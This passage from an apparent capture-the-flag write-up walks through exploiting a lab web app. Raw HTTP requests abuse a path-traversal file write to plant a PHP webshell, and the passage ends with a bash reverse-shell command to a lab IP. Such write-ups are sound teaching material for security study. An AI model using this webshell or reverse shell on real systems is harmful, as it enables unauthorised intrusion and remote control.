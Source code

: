     POST /edit/index.php HTTP/1.1
    Host: oxdf.microblog.htb
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 49
    Origin: http://oxdf.microblog.htb
    Cookie: username=rbb8bp6umb0logs0i3sqlcp5kc
    Upgrade-Insecure-Requests: 1
    
    id=../uploads/0xdf.php&txt=<?php+echo+"0xdf!";+?>
    

Now with Pro access, I can access this directory, and unlike the previous
directory, this time the PHP executes:

![image-20230515163354827](../img/image-20230515163354827.png)

#### Webshell -> Shell

I’ll resend the write request, but this time writing a simple PHP webshell:

    
    
    POST /edit/index.php HTTP/1.1
    Host: oxdf.microblog.htb
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 61
    Origin: http://oxdf.microblog.htb
    Cookie: username=rbb8bp6umb0logs0i3sqlcp5kc
    Upgrade-Insecure-Requests: 1
    
    id=../uploads/0xdf.php&txt=<?php+system($_REQUEST['cmd']);+?>
    

Now I’ll add `?cmd=[command]` to the url, and it works:

![image-20230515163515872](../img/image-20230515163515872.png)

I’ll start `nc` listening on 443 and send this [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw) in Firefox:

    
    
    http://oxdf.microblog.htb/uploads/0xdf.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261'
    
